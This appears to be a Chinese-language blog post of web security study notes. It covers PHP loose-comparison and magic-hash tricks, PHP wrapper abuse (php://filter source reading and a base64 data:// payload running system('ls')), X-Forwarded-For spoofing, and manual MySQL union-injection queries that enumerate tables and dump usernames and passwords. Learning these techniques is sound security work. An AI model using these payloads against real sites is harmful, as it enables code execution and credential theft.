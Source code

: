 ```yaml
---
layout: post
title: "WEB SEC(ing)"
categories: [web]

---
```


### PHP弱类型

#### 1.比较操作符
=== 在进行比较的时候，会先判断两种字符串的类型是否相等，再比较。

== 在进行比较的时候，会先将字符串类型转化成相同，再比较。


```
在$a==$b的比较中

$a=' ';$b=null  //true

$a=null;$b=true //true

$a=0;$b='0' //true

$a=0;$b='abcdef ' //true  而0===’abcdef’ false

```

#### 2.Hash比较缺陷

```
"0e132456789"=="0e7124511451155" //true
"0e123456abc"=="0e1dddada" //false
"0e1abc"=="0" //true
```

### 伪协议

#### 1.php伪协议
用法  

php://input,用于执行php代码，需要post请求提交数据。
php://filter,用于读取源码，get提交参数。
```
?a=php://filter/read=convert.base64/resource=xxx.php
```

需要开启
```
allow_url_fopen:php://input、
php://stdin、php://memory、php://temp
```

不需要开启
```
allow_url_fopen:php://filter
```


#### 2.data协议

用法：

```
data://text/plain,xxxx(要执行的php代码)
data://text/plain;base64,xxxx(base64编码后的数据)
```

例：

```
?page=data://text/plain,
?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCJscyIpPz4=
```


#### 3.file协议
用法：
file://[本地文件系统的绝对路径]


### 可变变量
一种特殊变量，允许动态改变一个变量名称。工作原理是该变量的名称由另外一个变量的名称确定，实现过程就是在变量的前面多加一个美元符号 “$”。

例子

```
<?php

$change_name = "trans";
$trans = "this is me";
echo $change_name;
echo $$change_name;

?>

//输出trans this is me
```


### XFF
XFF头(X-Forwarded-For)，代表客户端，也就是HTTP的请求端真实的IP。有两种方式可以从HTTP请求中获得请求者的IP地址。一个是从Remote Address中获得，另一个是从X-Forward-For中获得，但他们的安全性和使用场景各有不同。一旦用错，就可能为系统造成漏洞。  

Remote Address代表的是当前HTTP请求的远程地址，即HTTP请求的源地址。HTTP协议在三次握手时使用的就是这个Remote Address地址，在发送响应报文时也是使用这个Remote Address地址。因此，如果请求者伪造Remote Address地址，他将无法收到HTTP的响应报文，此时伪造没有任何意义。这也就使得Remote Address默认具有防篡改的功能。  

在一些大型网站中，来自用户的HTTP请求会经过反向代理服务器的转发，此时，服务器收到的Remote Address地址就是反向代理服务器的地址。在这样的情况下，用户的真实IP地址将被丢失，因此有了HTTP扩展头部X-Forward-For。当反向代理服务器转发用户的HTTP请求时，需要将用户的真实IP地址写入到X-Forward-For中，以便后端服务能够使用。由于X-Forward-For是可修改的，所以X-Forward-For中的地址在某种程度上不可信。  

所以，在进行与安全有关的操作时，只能通过Remote Address获取用户的IP地址，不能相信任何请求头。
当然，在使用nginx等反向代理服务器的时候，是必须使用X-Forward-For来获取用户IP地址的（此时Remote Address是nginx的地址），因为此时X-Forward-For中的地址是由nginx写入的，而nginx是可信任的。不过此时要注意，要禁止web对外提供服务。


### sql

#### union select手工注入

mysql中的information_schema 结构用来存储数据库系统信息 
information_schema 结构中这几个表存储的信息，在注射中可以用到的几个表。　 
 
SCHEMATA 存储数据库名的， 
关键字段：SCHEMA_NAME，表示数据库名称 
TABLES 存储表名的 
关键字段：TABLE_SCHEMA表示表所属的数据库名称； 
TABLE_NAME表示表的名称 
COLUMNS 存储字段名的 
关键字段：TABLE_SCHEMA表示表所属的数据库名称； 
TABLE_NAME表示所属的表的名称 
COLUMN_NAME表示字段名 
 
 
爆所有数据名 

```
select group_concat(SCHEMA_NAME) from information_schema.schemata
```

得到当前库的所有表 

```
select group_concat(table_name) from information_schema.tables where table_schema=database()
```

得到表中的字段名 将敏感的表进行16进制编码adminuser=0x61646D696E75736572 

```
select group_concat(column_name) from information_schema.columns where table_name=0x61646D696E75736572
```

得到字段具体的值     
```
select group_concat(username,0x3a,password) from adminuser
```
